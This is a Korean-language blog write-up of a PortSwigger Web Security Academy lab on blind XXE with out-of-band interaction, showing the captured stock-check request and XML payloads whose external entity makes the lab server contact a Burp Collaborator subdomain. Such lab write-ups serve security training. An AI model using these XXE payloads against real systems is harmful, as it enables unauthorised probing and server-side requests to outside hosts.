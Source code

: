 ```yaml
---
layout: post
title: "Burp Academy 문제풀이 - Blind XXE with out-of-band interaction"
categories: [보안취약점, Burp Academy]
tags: [보안취약점, Burp Academy, XXE]
toc: true
---
```


# 개요
- 블라인드 XXE 로 out-of-band 통신을 발생시키는 것을 실습하는 문제이다. 
- 문제 주소: https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction
- 블라인드 XXE 설명 주소: https://portswigger.net/web-security/xxe/blind
- 난이도: PRACTITIONER (중간)

# 문제분석 
- 이전 문제와 마찬가지로 "Check stock" 기능으로 XXE가 가능하다. 
- XXE로 문제 서버를 외부도메인과 통신하도록  (out-of-band interaction) 하는 것이  가능하다. 
- XXE를 통해 특정 DNS 요청을 발생시키면 될 것 같다. 
- DNS 요청이 발생했다는 것을 알기 위해서 Burp Collaborator 서버를 사용한다. 
- PortSwigger사의 [Burp Collaborator 설명](https://portswigger.net/burp/documentation/collaborator){:target="_blank"}을 보면 디폴트 Burp Collaborator 서버의 도메인은 `*.burpcollaborator.net` 또는  `*.oastify.com` 라는 것을 알 수 있다. 

```
This lab has a "Check stock" feature that parses XML input but does not display the result.

You can detect the blind XXE vulnerability by triggering out-of-band interactions with an external domain.

To solve the lab, use an external entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.

Note
To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use Burp Collaborator's default public server.
```

# 풀이 

## XXE 가능한 곳 발견
이전 문제들과 마찬가지로 "Check stock" 버튼 클릭시 발생하는 POST 요청의 바디 부분이 XML로 되어 있는 것을 발견했다. 

```
POST /product/stock HTTP/1.1
Host: 0aa9007d0461bff2c00aaee6002e00b7.web-security-academy.net
Cookie: session=gBA3k6jT5f5DjHzCRpxVSxXg72sbIc5E
Content-Length: 107
Sec-Ch-Ua: "Not?A_Brand";v="8", "Chromium";v="108", "Google Chrome";v="108"
Sec-Ch-Ua-Platform: "Windows"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36
Content-Type: application/xml
Accept: */*
Origin: https://0aa9007d0461bff2c00aaee6002e00b7.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0aa9007d0461bff2c00aaee6002e00b7.web-security-academy.net/product?productId=5
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,ko;q=0.8
Connection: close

<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>5</productId><storeId>1</storeId></stockCheck>
```

## 1차 시도 
HTTPS 요청 하는 대상을 burpcollaborator.net의 임의의 서브도메인 xxetest를 지정한 `xxetest.burpcollaborator.net` 로 지정해서 요청해보았다. 

```xml 
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "https://xxetest.burpcollaborator.net"> ]>
<stockCheck>
	<productId>&xxe;</productId>
	<storeId>1</storeId>
</stockCheck>
```

응? `XML parsing error` 가 발생했다. XML 형식이 잘못된 건가?   
생각해보니 블라인드 XXE 문제이므로 XXE결과를 HTTP 응답에 포함시킬 필요는 없을 것 같다. 문제 서버가 외부로 DNS 요청을 하도록 만들기만 하면 되는 것이다. 

```
HTTP/1.1 400 Bad Request
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 19

"XML parsing error"
```

## 2차 시도 
페이로드에서 `&xxe;` 를 없애고 보내봤다. 

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "https://xxetest.burpcollaborator.net"> ]>
<stockCheck>
	<productId>5</productId>
	<storeId>1</storeId>
</stockCheck>
```

평범한 응답이 돌아온다. 
```
HTTP/1.1 200 OK
Content-Type: text/plain; charset=utf-8
Connection: close
Content-Length: 3

183
```

![Blind XXE Repater](/images/burp-academy-xxe-3-repeater.png)

여기서 웹 페이지를 보면 성공했다는 메세지가 보인다. 문제서버에서 burpcollaborator.net 도메인을 관리하는 DNS서버로 `xxetest.burpcollaborator.net` 도메인의 IP를 물어보는 DNS 쿼리가 발생한 것이다! 

![Blind XXE 성공](/images/burp-academy-xxe-3-success.png)

